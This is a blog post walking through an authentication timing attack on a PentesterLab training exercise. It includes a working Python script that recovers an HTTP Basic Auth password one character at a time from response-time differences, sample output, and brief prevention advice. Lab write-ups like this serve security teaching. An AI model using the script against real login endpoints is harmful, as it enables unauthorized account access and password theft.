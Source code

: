 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: yzh503
summary: Get the password of web authentication.
categories: Web_Penetration
tags: 
 - Web penetration
 - Authentication Timing Attack
---
```


## Background 
Non-constant string comparison time is a vulnerablity of web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](http://theimagehost.net/upload/a1a7047fe4a55636d6a11fd3cdc26dd4.png)
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are different types of auth requests, such as Basic, Digest, and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
"dXNlcm5hbWU6cGFzc3dvcmQ=" is the base64 code of "username:password". The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is "abcde". Comparing "abcde" with "ab123" and "abc123", the second one takes more time than the first one. The first one compares 3 characters, and stops at the third letter. The second one compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters one by one, by comparing the response time of the auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The format follows "Index password response_time". In the first loop, I sent requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test on next bit. To make the script more reliable and stable, it is better to be able to select each character manually, and even go back. It has to stop when it finds the correct password (getting response 200). 

### Script 
For this example, I used python to send requests and count time. Requests: HTTP for Humans is an amazing library for HTTP request. You can write extremely simple neat code to send requests with this library. time.time() can be used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the local time, including network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print '--------------------'
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
By knowing this vulnerability, you will be able to prevent people from attacking you through this way. You can either carefully compare every character, or have a constant response time.
